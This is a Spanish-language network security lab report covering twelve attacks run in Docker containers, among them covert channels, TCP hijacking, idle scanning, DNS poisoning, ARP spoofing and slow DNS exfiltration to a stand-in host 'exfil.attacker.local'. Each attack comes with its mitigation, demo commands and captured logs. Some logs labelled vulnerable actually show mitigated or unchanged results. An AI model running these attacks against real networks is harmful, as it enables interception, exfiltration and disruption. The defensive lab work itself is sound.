Punto 01 — Canales Encubiertos en Cabeceras TCP/IP
Descripción de la vulnerabilidad
Manipulación maliciosa de campos de cabecera (IP ID, ISN, TTL) para transmitir datos ocultos sin alterar la carga útil visible.
Escenario de laboratorio
Emisor 10.9.0.101 codifica mensaje en IP ID; receptor 10.9.0.102 decodifica con Scapy.
Mitigación aplicada
Normalización de cabeceras: ISN pseudoaleatorio (RFC 6528) y IP ID secuencial limpio en el receptor.
Estado vulnerable

Estado mitigado

Vulnerable
El receptor extrae el mensaje oculto codificado en el campo IP ID de los paquetes ICMP/TCP enviados por el emisor.
Mitigado
Tras aplicar normalización de cabeceras, el campo IP ID ya no conserva el mensaje codificado; la extracción falla o devuelve ruido.
Comandos de demostración
docker compose up --build && docker compose exec emisor python3 /lab/encode_headers.py 10.9.0.102 SECRETOSalida capturada (vulnerable)
moved intermediate container 2669794e8e6a
---> 67be9d28ac1e
Step 5/7 : COPY scripts/ /lab/
---> 9cbba98b6973
Step 6/7 : CMD ["sleep", "infinity"]
---> e7d1b6310e3e
Step 6/7 : CMD ["sleep", "infinity"]
---> Running in 0eb5034e2e3c
---> Running in b245c3c0ef54
---> Removed intermediate container 0eb5034e2e3c
---> d2f88e3b0bcf
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Removed intermediate container b245c3c0ef54
---> 88157549615a
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Running in 622a30ce3079
---> Running in 730626262d27
---> Removed intermediate container 622a30ce3079
---> 59dfd6c89fe0
Successfully built 59dfd6c89fe0
---> Removed intermediate container 730626262d27
---> f5f927642910
Successfully tagged p01v-receptor:latest
Image p01v-receptor Built
Image p01v-receptor Built
Successfully built f5f927642910
Successfully tagged p01v-emisor:latest
Image p01v-emisor Built
Image p01v-emisor Built
Network p01v_labnet Creating
Network p01v_labnet Created
Container p01v-emisor-1 Creating
Container p01v-receptor-1 Creating
Container p01v-receptor-1 Created
Container p01v-emisor-1 Created
Container p01v-receptor-1 Starting
Container p01v-emisor-1 Starting
Container p01v-emisor-1 Started
Container p01v-receptor-1 Started
[+] Codificando 'SECRETO' en IP ID hacia 10.9.0.102
paquete 0: IP ID=21248 char='S'
paquete 1: IP ID=17665 char='E'
paquete 2: IP ID=17154 char='C'
paquete 3: IP ID=20995 char='R'
paquete 4: IP ID=17668 char='E'
paquete 5: IP ID=21509 char='T'
paquete 6: IP ID=20230 char='O'
[+] Transmisión encubierta completada
Container p01v-receptor-1 Stopping
Container p01v-emisor-1 Stopping
Container p01v-emisor-1 Stopped
Container p01v-emisor-1 Removing
Container p01v-receptor-1 Stopped
Container p01v-receptor-1 Removing
Container p01v-receptor-1 Removed
Container p01v-emisor-1 Removed
Network p01v_labnet Removing
Network p01v_labnet Removed
Punto 02 — Timing Covert Channels
Descripción de la vulnerabilidad
Modulación de intervalos entre paquetes (IPD) para transmitir bits sin modificar cabeceras ni payload.
Escenario de laboratorio
Emisor 10.9.0.101 envía ICMP con retardo corto/largo; receptor 10.9.0.102 mide tiempos.
Mitigación aplicada
Jammer con tc netem que añade jitter uniforme destruyendo la señal temporal.
Estado vulnerable

Estado mitigado

Vulnerable
El receptor decodifica correctamente la secuencia de bits a partir de los intervalos entre paquetes.
Mitigado
Con jitter activo en el gateway, la decodificación por temporización produce errores o secuencia inválida.
Comandos de demostración
docker compose exec emisor python3 /lab/timing_send.py 10.9.0.102 1010Salida capturada (vulnerable)
finity"]
---> Using cache
---> dff87a52be11
Step 6/7 : CMD ["sleep", "infinity"]
---> Using cache
---> 2cd9f33c5292
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> 2cd9f33c5292
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> ee05f1ebc0f0
---> Using cache
---> ee05f1ebc0f0
Successfully built ee05f1ebc0f0
Successfully built ee05f1ebc0f0
Successfully tagged p02v-emisor:latest
Image p02v-emisor Built
Image p02v-emisor Built
Successfully tagged p02v-receptor:latest
Image p02v-receptor Built
Image p02v-receptor Built
Network p02v_labnet Creating
Network p02v_labnet Created
Container p02v-emisor-1 Creating
Container p02v-receptor-1 Creating
Container p02v-emisor-1 Created
Container p02v-receptor-1 Created
Container p02v-emisor-1 Starting
Container p02v-receptor-1 Starting
Container p02v-receptor-1 Started
Container p02v-emisor-1 Started
[+] Codificando '1010' por temporización hacia 10.9.0.102
paquete sync enviado
bit 0: 1 (retardo previo=0.8s)
bit 1: 0 (retardo previo=0.2s)
bit 2: 1 (retardo previo=0.8s)
bit 3: 0 (retardo previo=0.2s)
[+] Transmisión temporal completada
[+] Escuchando canal temporal ICMP...
[*] Echo Request de 10.9.0.101 @ 1780941119.830
[*] Echo Request de 10.9.0.101 @ 1780941120.648
[*] Echo Request de 10.9.0.101 @ 1780941120.860
[*] Echo Request de 10.9.0.101 @ 1780941121.670
[*] Echo Request de 10.9.0.101 @ 1780941121.885
[*] IPD[0]=0.819s -> bit 1
[*] IPD[1]=0.212s -> bit 0
[*] IPD[2]=0.810s -> bit 1
[*] IPD[3]=0.215s -> bit 0
[+] Secuencia decodificada: 1010
[+] DECODIFICACIÓN EXITOSA: 1010
Container p02v-emisor-1 Stopping
Container p02v-receptor-1 Stopping
Container p02v-emisor-1 Stopped
Container p02v-emisor-1 Removing
Container p02v-receptor-1 Stopped
Container p02v-receptor-1 Removing
Container p02v-emisor-1 Removed
Container p02v-receptor-1 Removed
Network p02v_labnet Removing
Network p02v_labnet Removed
Punto 03 — TCP Session Hijacking Off-Path
Descripción de la vulnerabilidad
Inyección off-path de segmentos TCP aprovechando side-channels de Challenge ACK (CVE-2016-5696).
Escenario de laboratorio
Servidor 10.9.0.5, cliente 10.9.0.6, atacante 10.9.0.7 en red 10.9.0.0/24.
Mitigación aplicada
sysctl net.ipv4.tcp_challenge_ack_limit=2147483647 en el servidor.
Estado vulnerable

Estado mitigado

Vulnerable
El atacante detecta variaciones en Challenge ACKs al probar números de secuencia, revelando información de la sesión.
Mitigado
Con el límite elevado, las respuestas Challenge ACK son uniformes y el canal colateral deja de filtrar información.
Comandos de demostración
docker compose exec atacante python3 /lab/challenge_ack_probe.py 10.9.0.5 10.9.0.6Salida capturada (vulnerable)
9 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> 07e7eed1be01
Step 9/9 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> 319f1294fbac
---> Using cache
---> 319f1294fbac
Successfully built 319f1294fbac
---> Using cache
---> 319f1294fbac
Successfully built 319f1294fbac
Successfully built 319f1294fbac
Successfully tagged p03v-atacante:latest
Image p03v-atacante Built
Image p03v-atacante Built
Successfully tagged p03v-servidor:latest
Image p03v-servidor Built
Image p03v-servidor Built
Successfully tagged p03v-cliente:latest
Image p03v-cliente Built
Image p03v-cliente Built
Network p03v_labnet Creating
Network p03v_labnet Created
Container p03v-servidor-1 Creating
Container p03v-cliente-1 Creating
Container p03v-atacante-1 Creating
Container p03v-cliente-1 Created
Container p03v-servidor-1 Created
Container p03v-atacante-1 Created
Container p03v-atacante-1 Starting
Container p03v-cliente-1 Starting
Container p03v-servidor-1 Starting
Container p03v-cliente-1 Started
Container p03v-atacante-1 Started
Container p03v-servidor-1 Started
[*] Side-channel Challenge ACK — servidor=10.9.0.5 cliente=10.9.0.6
[*] Sesión TCP activa en puerto 9999; enviando SYN fuera de ventana...
seq= 1000 -> ACK
seq= 50000 -> ACK
seq= 100000 -> ACK
seq= 250000 -> ACK
seq= 500000 -> ACK
seq= 900000 -> ACK
[+] Distribución de respuestas: {'ACK': 6}
[+] Respuestas uniformes — side-channel mitigado
Container p03v-servidor-1 Stopping
Container p03v-atacante-1 Stopping
Container p03v-cliente-1 Stopping
Container p03v-atacante-1 Stopped
Container p03v-atacante-1 Removing
Container p03v-cliente-1 Stopped
Container p03v-cliente-1 Removing
Container p03v-servidor-1 Stopped
Container p03v-servidor-1 Removing
Container p03v-atacante-1 Removed
Container p03v-cliente-1 Removed
Container p03v-servidor-1 Removed
Network p03v_labnet Removing
Network p03v_labnet Removed
Punto 04 — Idle Scan / Zombie Scan
Descripción de la vulnerabilidad
Escaneo ciego usando IP ID predecible de un host zombie para inferir puertos abiertos sin revelar la IP del atacante.
Escenario de laboratorio
Atacante 10.9.0.100, zombie 10.9.0.150, objetivo 10.9.0.200.
Mitigación aplicada
rp_filter=1 y descarte de paquetes con IP spoofing.
Estado vulnerable

Estado mitigado

Vulnerable
Delta IP ID del zombie indica puerto 80 abierto en el objetivo (incremento de +1).
Mitigado
Con rp_filter activo, los SYN spoofed no alcanzan el objetivo y el delta IP ID no cambia.
Comandos de demostración
docker compose exec atacante python3 /lab/idle_scan.py 10.9.0.150 10.9.0.200 80Salida capturada (vulnerable)
---> Using cache ---> 8b68bc3f6829 Step 9/9 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> 8b68bc3f6829 Step 9/9 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> 8b68bc3f6829 Step 9/9 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> b36231048dbf Successfully built b36231048dbf ---> Using cache ---> b36231048dbf ---> Using cache ---> b36231048dbf Successfully built b36231048dbf Successfully built b36231048dbf Successfully tagged p04v-objetivo:latest Image p04v-objetivo Built Image p04v-objetivo Built Successfully tagged p04v-atacante:latest Image p04v-atacante Built Image p04v-atacante Built Successfully tagged p04v-zombie:latest Image p04v-zombie Built Image p04v-zombie Built Network p04v_labnet Creating Network p04v_labnet Created Container p04v-objetivo-1 Creating Container p04v-zombie-1 Creating Container p04v-atacante-1 Creating Container p04v-objetivo-1 Created Container p04v-atacante-1 Created Container p04v-zombie-1 Created Container p04v-atacante-1 Starting Container p04v-zombie-1 Starting Container p04v-objetivo-1 Starting Container p04v-atacante-1 Started Container p04v-objetivo-1 Started Container p04v-zombie-1 Started [*] Idle scan: zombie=10.9.0.150 objetivo=10.9.0.200 puerto=80 [*] IP ID inicial del zombie: 0 [*] SYN spoofed enviado: 10.9.0.150 -> 10.9.0.200:80 [*] IP ID final del zombie: 0 [+] Delta IP ID: 0 [-] Puerto 80/tcp cerrado/filtrado (delta=0) Container p04v-zombie-1 Stopping Container p04v-atacante-1 Stopping Container p04v-objetivo-1 Stopping Container p04v-objetivo-1 Stopped Container p04v-objetivo-1 Removing Container p04v-atacante-1 Stopped Container p04v-atacante-1 Removing Container p04v-zombie-1 Stopped Container p04v-zombie-1 Removing Container p04v-objetivo-1 Removed Container p04v-zombie-1 Removed Container p04v-atacante-1 Removed Network p04v_labnet Removing Network p04v_labnet Removed
Punto 05 — Tunelización ICMP
Descripción de la vulnerabilidad
Encapsulación de datos arbitrarios en el payload de Echo Request/Reply ICMP.
Escenario de laboratorio
Emisor 10.9.0.101, receptor 10.9.0.102.
Mitigación aplicada
iptables: DROP en Echo Request con longitud total > 84 bytes.
Estado vulnerable

Estado mitigado

Vulnerable
El receptor imprime el mensaje tunelizado recibido vía ICMP.
Mitigado
Paquetes ICMP con payload largo son descartados; el mensaje no llega al receptor.
Comandos de demostración
python3 send_icmp.py 10.9.0.102 'MensajeSecretoTunelizado'Salida capturada (vulnerable)
8dca233de9f3 Step 2/7 : RUN apt-get update && apt-get install -y --no-install-recommends iproute2 iputils-ping tcpdump procps && rm -rf /var/lib/apt/lists/* ---> Using cache ---> a40c36c8f93a Step 3/7 : RUN pip install --no-cache-dir scapy ---> Using cache ---> a40c36c8f93a Step 3/7 : RUN pip install --no-cache-dir scapy ---> Using cache ---> 1411ba7e8e9f Step 4/7 : WORKDIR /lab ---> Using cache ---> 1411ba7e8e9f Step 4/7 : WORKDIR /lab ---> Using cache ---> 86c388bfd53d Step 5/7 : COPY scripts/ /lab/ ---> Using cache ---> 86c388bfd53d Step 5/7 : COPY scripts/ /lab/ ---> Using cache ---> 7964307b8cd4 Step 6/7 : CMD ["sleep", "infinity"] ---> Using cache ---> 7964307b8cd4 Step 6/7 : CMD ["sleep", "infinity"] ---> Using cache ---> f6e1728fe5c5 Step 7/7 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> f6e1728fe5c5 Step 7/7 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> 2f7a9664276f ---> Using cache ---> 2f7a9664276f Successfully built 2f7a9664276f Successfully built 2f7a9664276f Successfully tagged p05v-emisor:latest Image p05v-emisor Built Image p05v-emisor Built Successfully tagged p05v-receptor:latest Image p05v-receptor Built Image p05v-receptor Built Network p05v_labnet Creating Network p05v_labnet Created Container p05v-receptor-1 Creating Container p05v-emisor-1 Creating Container p05v-emisor-1 Created Container p05v-receptor-1 Created Container p05v-receptor-1 Starting Container p05v-emisor-1 Starting Container p05v-emisor-1 Started Container p05v-receptor-1 Started [+] Datos transmitidos con éxito al host 10.9.0.102 Container p05v-receptor-1 Stopping Container p05v-emisor-1 Stopping Container p05v-emisor-1 Stopped Container p05v-emisor-1 Removing Container p05v-receptor-1 Stopped Container p05v-receptor-1 Removing Container p05v-emisor-1 Removed Container p05v-receptor-1 Removed Network p05v_labnet Removing Network p05v_labnet Removed
Punto 06 — DNS Cache Poisoning
Descripción de la vulnerabilidad
Inyección de respuestas DNS falsificadas aprovechando TXID y puerto efímero predecibles.
Escenario de laboratorio
Resolvedor 10.9.0.53, DNS autoritativo 10.9.0.120, atacante 10.9.0.153.
Mitigación aplicada
DNSSEC con dnssec-validation auto en BIND9.
Estado mitigado

Vulnerable
Respuesta forjada es aceptada en caché; dig devuelve IP del atacante.
Mitigado
Sin firmas DNSSEC válidas, el resolvedor rechaza la respuesta envenenada.
Comandos de demostración
python3 dns_poison.py rand001 && dig @10.9.0.53 test.ejemplo.comSalida capturada (vulnerable)
+] Sonda inyectada: Puerto_Destino=16377 | TXID=50568 [+] Sonda inyectada: Puerto_Destino=64034 | TXID=32539 [+] Sonda inyectada: Puerto_Destino=15045 | TXID=33674 [+] Sonda inyectada: Puerto_Destino=63551 | TXID=60322 [+] Sonda inyectada: Puerto_Destino=43634 | TXID=49893 [+] Sonda inyectada: Puerto_Destino=51590 | TXID=1979 [+] Sonda inyectada: Puerto_Destino=14473 | TXID=53936 [+] Sonda inyectada: Puerto_Destino=47759 | TXID=57647 [+] Sonda inyectada: Puerto_Destino=18935 | TXID=64346 [+] Sonda inyectada: Puerto_Destino=16583 | TXID=49295 [+] Sonda inyectada: Puerto_Destino=1743 | TXID=18973 [+] Sonda inyectada: Puerto_Destino=35184 | TXID=33276 [+] Sonda inyectada: Puerto_Destino=3046 | TXID=13319 [+] Sonda inyectada: Puerto_Destino=53752 | TXID=45464 [+] Sonda inyectada: Puerto_Destino=51811 | TXID=29145 [+] Sonda inyectada: Puerto_Destino=21397 | TXID=23180 [+] Sonda inyectada: Puerto_Destino=35447 | TXID=29068 [+] Sonda inyectada: Puerto_Destino=25731 | TXID=8705 [+] Sonda inyectada: Puerto_Destino=43407 | TXID=19461 [+] Sonda inyectada: Puerto_Destino=39959 | TXID=42320 [+] Sonda inyectada: Puerto_Destino=32240 | TXID=11435 [+] Sonda inyectada: Puerto_Destino=60497 | TXID=49062 [+] Sonda inyectada: Puerto_Destino=40358 | TXID=22777 [+] Sonda inyectada: Puerto_Destino=44216 | TXID=42755 [+] Sonda inyectada: Puerto_Destino=51337 | TXID=44607 [+] Sonda inyectada: Puerto_Destino=26882 | TXID=34646 [+] Sonda inyectada: Puerto_Destino=3692 | TXID=39132 [*] Consulta tras ataque: 10.10.10.10 Container p06v-auth-1 Stopping Container p06v-atacante-1 Stopping Container p06v-resolver-1 Stopping Container p06v-auth-1 Stopped Container p06v-auth-1 Removing Container p06v-resolver-1 Stopped Container p06v-resolver-1 Removing Container p06v-auth-1 Removed Container p06v-resolver-1 Removed Container p06v-atacante-1 Stopped Container p06v-atacante-1 Removing Container p06v-atacante-1 Removed Network p06v_labnet Removing Network p06v_labnet Removed
Punto 07 — Evasión IDS por Fragmentación IP
Descripción de la vulnerabilidad
Fragmentos IP con offsets solapados para evadir IDS y reensamblar payload malicioso en el objetivo.
Escenario de laboratorio
Atacante 10.9.0.101, objetivo 10.9.0.102.
Mitigación aplicada
iptables -t mangle -A PREROUTING -f -j DROP
Estado vulnerable

Estado mitigado

Vulnerable
El objetivo reensambla y detecta la firma maliciosa EVILPAYLOAD en UDP.
Mitigado
Los fragmentos IP son descartados en el firewall; no hay reensamblaje.
Comandos de demostración
python3 fragment_attack.py 10.9.0.102Salida capturada (vulnerable)
wget openssl procps arping netcat-openbsd iperf3 && rm -rf /var/lib/apt/lists/* ---> Using cache ---> ce8021aaf169 Step 3/7 : RUN pip install --no-cache-dir scapy ---> Using cache ---> ce8021aaf169 Step 3/7 : RUN pip install --no-cache-dir scapy ---> Using cache ---> 14f51145fa8a Step 4/7 : WORKDIR /lab ---> Using cache ---> 14f51145fa8a Step 4/7 : WORKDIR /lab ---> Using cache ---> 64c502339872 Step 5/7 : COPY scripts/ /lab/ ---> Using cache ---> 64c502339872 Step 5/7 : COPY scripts/ /lab/ ---> Using cache ---> 1ce78eaec4f0 Step 6/7 : CMD ["sleep", "infinity"] ---> Using cache ---> 1ce78eaec4f0 Step 6/7 : CMD ["sleep", "infinity"] ---> Using cache ---> e5d124cdbfe1 Step 7/7 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> e5d124cdbfe1 Step 7/7 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> 251b06a421a7 ---> Using cache ---> 251b06a421a7 Successfully built 251b06a421a7 Successfully built 251b06a421a7 Successfully tagged p07v-objetivo:latest Image p07v-objetivo Built Image p07v-objetivo Built Successfully tagged p07v-atacante:latest Image p07v-atacante Built Image p07v-atacante Built Network p07v_labnet Creating Network p07v_labnet Created Container p07v-objetivo-1 Creating Container p07v-atacante-1 Creating Container p07v-atacante-1 Created Container p07v-objetivo-1 Created Container p07v-objetivo-1 Starting Container p07v-atacante-1 Starting Container p07v-objetivo-1 Started Container p07v-atacante-1 Started [+] Fragmento 0 enviado (16 bytes payload UDP benigno) [+] Fragmento 1 solapado (offset 8) con EVILPAYLOAD Container p07v-objetivo-1 Stopping Container p07v-atacante-1 Stopping Container p07v-objetivo-1 Stopped Container p07v-objetivo-1 Removing Container p07v-atacante-1 Stopped Container p07v-atacante-1 Removing Container p07v-objetivo-1 Removed Container p07v-atacante-1 Removed Network p07v_labnet Removing Network p07v_labnet Removed
Punto 08 — Ataques Off-Path con ICMP Forjado
Descripción de la vulnerabilidad
ICMP Type 3 Code 4 falsificado con MTU reducido para degradar conexiones TCP activas.
Escenario de laboratorio
Atacante 10.9.0.10, víctima 10.9.0.20, gateway 10.9.0.1.
Mitigación aplicada
accept_redirects=0 y tcp_mtu_probing=1.
Estado vulnerable

Estado mitigado

Vulnerable
Tras ICMP forjado, ip route show refleja MTU reducido en la ruta.
Mitigado
La ruta se mantiene estable; MTU probing permite recuperación.
Comandos de demostración
python3 forge_icmp_mtu.py 10.9.0.20Salida capturada (vulnerable)
---> Using cache
---> d858fb9f3c0e
Step 6/7 : CMD ["sleep", "infinity"]
Step 6/7 : CMD ["sleep", "infinity"]
---> Using cache
---> 4fa7939f12a2
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> 4fa7939f12a2
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> 4fa7939f12a2
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> 9859a745eac8
---> Using cache
---> 9859a745eac8
---> Using cache
---> 9859a745eac8
Successfully built 9859a745eac8
Successfully built 9859a745eac8
Successfully built 9859a745eac8
Successfully tagged p08v-atacante:latest
Image p08v-atacante Built
Image p08v-atacante Built
Successfully tagged p08v-victima:latest
Image p08v-victima Built
Image p08v-victima Built
Successfully tagged p08v-servidor:latest
Image p08v-servidor Built
Image p08v-servidor Built
Network p08v_labnet Creating
Network p08v_labnet Created
Container p08v-servidor-1 Creating
Container p08v-atacante-1 Creating
Container p08v-victima-1 Creating
Container p08v-atacante-1 Created
Container p08v-victima-1 Created
Container p08v-servidor-1 Created
Container p08v-victima-1 Starting
Container p08v-servidor-1 Starting
Container p08v-atacante-1 Starting
Container p08v-servidor-1 Started
Container p08v-victima-1 Started
Container p08v-atacante-1 Started
[+] ICMP Type3/Code4 forjado hacia 10.9.0.20 (MTU=576)
Datagrama interno: 10.9.0.20:45678 -> 10.9.0.30:8080 seq=1
Container p08v-servidor-1 Stopping
Container p08v-victima-1 Stopping
Container p08v-atacante-1 Stopping
Container p08v-servidor-1 Stopped
Container p08v-servidor-1 Removing
Container p08v-atacante-1 Stopped
Container p08v-atacante-1 Removing
Container p08v-victima-1 Stopped
Container p08v-victima-1 Removing
Container p08v-atacante-1 Removed
Container p08v-servidor-1 Removed
Container p08v-victima-1 Removed
Network p08v_labnet Removing
Network p08v_labnet Removed
Punto 09 — Low-Rate Denial of Service (LDoS)
Descripción de la vulnerabilidad
Ráfagas periódicas sincronizadas con RTO mínimo para degradar TCP sin saturar el enlace.
Escenario de laboratorio
Atacante 10.9.0.101, cliente 10.9.0.102, router con 10 Mbps.
Mitigación aplicada
fq_codel / hashlimit en router para aislar flujos.
Estado vulnerable

Estado mitigado

Vulnerable
Descarga TCP del cliente cae drásticamente durante el ataque LDoS.
Mitigado
Con control de colas justo, la descarga mantiene throughput aceptable.
Comandos de demostración
python3 ldos.py 10.9.0.102 & wget http://10.9.0.102/Salida capturada (vulnerable)
nity"] ---> Using cache ---> 065d046522d3 Step 6/7 : CMD ["sleep", "infinity"] ---> Using cache ---> c513a76b2c84 Step 7/7 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> c513a76b2c84 Step 7/7 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> c513a76b2c84 Step 7/7 : LABEL com.docker.compose.image.builder=classic ---> Using cache ---> 11daf28f6fdb ---> Using cache ---> 11daf28f6fdb Successfully built 11daf28f6fdb ---> Using cache ---> 11daf28f6fdb Successfully built 11daf28f6fdb Successfully built 11daf28f6fdb Successfully tagged p09v-atacante:latest Image p09v-atacante Built Image p09v-atacante Built Successfully tagged p09v-cliente:latest Image p09v-cliente Built Image p09v-cliente Built Successfully tagged p09v-servidor:latest Image p09v-servidor Built Image p09v-servidor Built Network p09v_labnet Creating Network p09v_labnet Created Container p09v-cliente-1 Creating Container p09v-servidor-1 Creating Container p09v-atacante-1 Creating Container p09v-servidor-1 Created Container p09v-atacante-1 Created Container p09v-cliente-1 Created Container p09v-servidor-1 Starting Container p09v-atacante-1 Starting Container p09v-cliente-1 Starting Container p09v-cliente-1 Started Container p09v-servidor-1 Started Container p09v-atacante-1 Started [*] Descarga sin ataque (referencia): velocidad=1289444171 B/s tiempo=0.004066s [*] Descarga durante LDoS: velocidad=1307451371 B/s tiempo=0.004010s Container p09v-cliente-1 Stopping Container p09v-atacante-1 Stopping Container p09v-servidor-1 Stopping Container p09v-cliente-1 Stopped Container p09v-cliente-1 Removing Container p09v-atacante-1 Stopped Container p09v-atacante-1 Removing Container p09v-servidor-1 Stopped Container p09v-servidor-1 Removing Container p09v-atacante-1 Removed Container p09v-servidor-1 Removed Container p09v-cliente-1 Removed Network p09v_labnet Removing Network p09v_labnet Removed
Punto 10 — Exfiltración Lenta por DNS
Descripción de la vulnerabilidad
Codificación de datos en subdominios DNS para exfiltración sigilosa de baja frecuencia.
Escenario de laboratorio
Host 10.9.0.102, resolvedor 10.9.0.53, DNS atacante 10.9.0.101.
Mitigación aplicada
Filtrado de consultas con subdominios largos o alta entropía.
Estado vulnerable

Estado mitigado

Vulnerable
El servidor DNS del atacante registra la consulta con datos hex exfiltrados.
Mitigado
El resolvedor bloquea consultas anómalas; no llegan al DNS del atacante.
Comandos de demostración
python3 slow_dns.py exfil.attacker.local 'Secreto'Salida capturada (vulnerable)
ver Built Image p10v-resolver Built Network p10v_labnet Creating Network p10v_labnet Created Container p10v-host-1 Creating Container p10v-resolver-1 Creating Container p10v-attacker-dns-1 Creating Container p10v-resolver-1 Created Container p10v-attacker-dns-1 Created Container p10v-host-1 Created Container p10v-attacker-dns-1 Starting Container p10v-resolver-1 Starting Container p10v-host-1 Starting Container p10v-resolver-1 Started Container p10v-attacker-dns-1 Started Container p10v-host-1 Started [*] Exfiltrando [Secreto] como: 5365637265746f.exfil.attacker.local [+] Consulta DNS enviada al resolvedor configurado [*] Consultas registradas en DNS atacante: attacker-dns-1 | [*] DNS atacante iniciando (registra consultas exfiltradas) attacker-dns-1 | dnsmasq[1]: started, version 2.90 cachesize 150 attacker-dns-1 | dnsmasq[1]: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile attacker-dns-1 | dnsmasq[1]: warning: no upstream servers configured attacker-dns-1 | dnsmasq[1]: read /etc/hosts - 9 names attacker-dns-1 | dnsmasq[1]: query[A] 5365637265746f.exfil.attacker.local from 10.9.0.53 attacker-dns-1 | dnsmasq[1]: config 5365637265746f.exfil.attacker.local is 10.9.0.101 attacker-dns-1 | dnsmasq[1]: query[AAAA] 5365637265746f.exfil.attacker.local from 10.9.0.53 attacker-dns-1 | dnsmasq[1]: config error is REFUSED (EDE: not ready) Container p10v-resolver-1 Stopping Container p10v-host-1 Stopping Container p10v-attacker-dns-1 Stopping Container p10v-resolver-1 Stopped Container p10v-resolver-1 Removing Container p10v-attacker-dns-1 Stopped Container p10v-attacker-dns-1 Removing Container p10v-resolver-1 Removed Container p10v-attacker-dns-1 Removed Container p10v-host-1 Stopped Container p10v-host-1 Removing Container p10v-host-1 Removed Network p10v_labnet Removing Network p10v_labnet Removed
Punto 11 — ARP Spoofing Silencioso
Descripción de la vulnerabilidad
Respuestas ARP gratuitas lentas que envenenan la caché ARP de la víctima.
Escenario de laboratorio
Atacante 10.9.0.10, víctima 10.9.0.20, gateway 10.9.0.1.
Mitigación aplicada
Entrada ARP estática para la puerta de enlace (arp -s).
Estado vulnerable

Estado mitigado

Vulnerable
ip neigh show en víctima asocia gateway con MAC del atacante.
Mitigado
Entrada estática impide que ARP spoofing altere el mapeo IP-MAC.
Comandos de demostración
python3 arp_slow.py 10.9.0.20 ... && ip neigh showSalida capturada (vulnerable)
ge.builder=classic ---> Using cache ---> cff9fa29b0ed Successfully built cff9fa29b0ed ---> Using cache ---> cff9fa29b0ed Successfully built cff9fa29b0ed Successfully tagged p11v-atacante:latest Image p11v-atacante Built Image p11v-atacante Built ---> Using cache ---> cff9fa29b0ed Successfully tagged p11v-victima:latest Image p11v-victima Built Image p11v-victima Built Successfully built cff9fa29b0ed Successfully tagged p11v-gateway:latest Image p11v-gateway Built Image p11v-gateway Built Network p11v_labnet Creating Network p11v_labnet Created Container p11v-atacante-1 Creating Container p11v-gateway-1 Creating Container p11v-victima-1 Creating Container p11v-atacante-1 Created Container p11v-victima-1 Created Container p11v-gateway-1 Created Container p11v-atacante-1 Starting Container p11v-gateway-1 Starting Container p11v-victima-1 Starting Container p11v-atacante-1 Started Container p11v-victima-1 Started Container p11v-gateway-1 Started [*] MACs: victima=2a:0a:02:df:ab:fe atacante=26:fc:e2:51:97:ca gateway=6a:44:31:42:08:7c [*] Tabla ARP víctima ANTES: 10.9.0.1 dev eth0 lladdr 6a:44:31:42:08:7c REACHABLE [*] Envenenamiento silencioso contra 10.9.0.20 (2 iteraciones, 2.0s) [+] ARP Reply 1/2: 10.9.0.1 -> MAC 26:fc:e2:51:97:ca [+] ARP Reply 2/2: 10.9.0.1 -> MAC 26:fc:e2:51:97:ca [*] Auditoría ARP finalizada [*] Tabla ARP víctima DESPUÉS (gateway debería apuntar al MAC del atacante): 10.9.0.1 dev eth0 lladdr 26:fc:e2:51:97:ca REACHABLE Container p11v-gateway-1 Stopping Container p11v-victima-1 Stopping Container p11v-atacante-1 Stopping Container p11v-victima-1 Stopped Container p11v-victima-1 Removing Container p11v-gateway-1 Stopped Container p11v-gateway-1 Removing Container p11v-atacante-1 Stopped Container p11v-atacante-1 Removing Container p11v-victima-1 Removed Container p11v-gateway-1 Removed Container p11v-atacante-1 Removed Network p11v_labnet Removing Network p11v_labnet Removed
Punto 12 — Downgrade Attacks TLS/SSH
Descripción de la vulnerabilidad
Manipulación de ClientHello para forzar cipher suites obsoletas.
Escenario de laboratorio
Cliente 10.9.0.102, servidor Apache 10.9.0.103.
Mitigación aplicada
SSLProtocol restringido a TLS 1.2+ y ciphers modernos.
Estado vulnerable

Estado mitigado

Vulnerable
openssl s_client negocia TLS 1.0 o RC4 con servidor vulnerable.
Mitigado
Servidor hardened rechaza handshake con ciphers débiles.
Comandos de demostración
openssl s_client -connect 10.9.0.103:443 -tls1Salida capturada (vulnerable)
vidor Building
Sending build context to Docker daemon 1.128kB
Step 1/7 : FROM debian:bookworm-slim
---> 0104b334637a
Step 2/7 : RUN apt-get update && apt-get install -y --no-install-recommends nginx openssl curl && rm -rf /var/lib/apt/lists/*
---> Using cache
---> e4010372be5d
Step 3/7 : COPY nginx.conf /etc/nginx/sites-available/default
---> Using cache
---> 5f8e3184cd4d
Step 4/7 : COPY entrypoint.sh /entrypoint.sh
---> Using cache
---> bf182fe69da4
Step 5/7 : RUN chmod +x /entrypoint.sh && openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/ssl/private/nginx-selfsigned.key -out /etc/ssl/certs/nginx-selfsigned.crt -subj "/CN=lab.local"
---> Using cache
---> b7a99576b390
Step 6/7 : ENTRYPOINT ["/entrypoint.sh"]
---> Using cache
---> 27fa8b63fa0f
Step 7/7 : LABEL com.docker.compose.image.builder=classic
---> Using cache
---> e21584e0f648
Successfully built e21584e0f648
Successfully tagged p12v-servidor:latest
Image p12v-servidor Built
Image p12v-servidor Built
Network p12v_labnet Creating
Network p12v_labnet Created
Container p12v-cliente-1 Creating
Container p12v-servidor-1 Creating
